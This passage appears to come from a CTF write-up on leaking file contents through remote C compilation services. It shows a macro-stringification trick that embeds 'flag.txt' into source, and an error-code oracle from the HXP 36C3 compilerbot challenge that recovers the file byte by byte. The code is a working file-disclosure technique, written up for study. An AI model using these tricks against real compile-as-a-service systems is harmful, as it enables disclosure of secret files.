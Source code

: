 Here's another similar technique, which uses `__VA_ARGS__` with macro string coercion.

```c
void wrapper() {
#define to_str(...) (#__VA_ARGS__)
#define flag_prefix to_str(
const char flag_string[] =
#include "flag.txt"
);
}

// This produces the following C source:
void wrapper() {
const char flag_string[] =
("{flag_contents_here}");
}
```

### Error Code Oracles

Full file content disclosure does not even require output reflection from the vulnerable service as long as you are able to retrieve the error code from the compilation process. This was demonstrated in the [compilerbot](https://ctftime.org/task/10196) challenge from HXP 36C3 CTF 2019.

The first technique we'll examine (introduced in [this compilerbot writeup](https://github.com/tmr232/writeups/tree/master/hxp-36c3-ctf/compilerbot)). Once the length of the flag is known, each character from the flag's contents can be used to index a separate varying-length array. If we modify the length of the varying-length array until it would go out of bounds when accessing the array, we will learn the value of the character at the tested index of the flag. Here is a basic implementation would show one iteration of the attack:

```c
#pragma clang diagnostic ignored "-Wchar-subscripts"
#pragma clang diagnostic ignored "-Wunused-variable"
#pragma clang diagnostic fatal "-Warray-bounds-pointer-arithmetic"

void wrapper() {
#define to_str(...) (#__VA_ARGS__)
#define flag_prefix to_str(

#define TEST_LENGTH 100
#define TEST_INDEX 0

const char test_array[TEST_LENGTH] = {0};
const char c = test_array[
#include "flag.txt"
)[TEST_INDEX]];
}

int main() {
    wrapper();
}

// This produces the following C source:
void wrapper() {
const char test_array[100] = {0};
const char c = test_array[
("{flag_contents_here}")[0]];
}

int main() {
    wrapper();
}
```
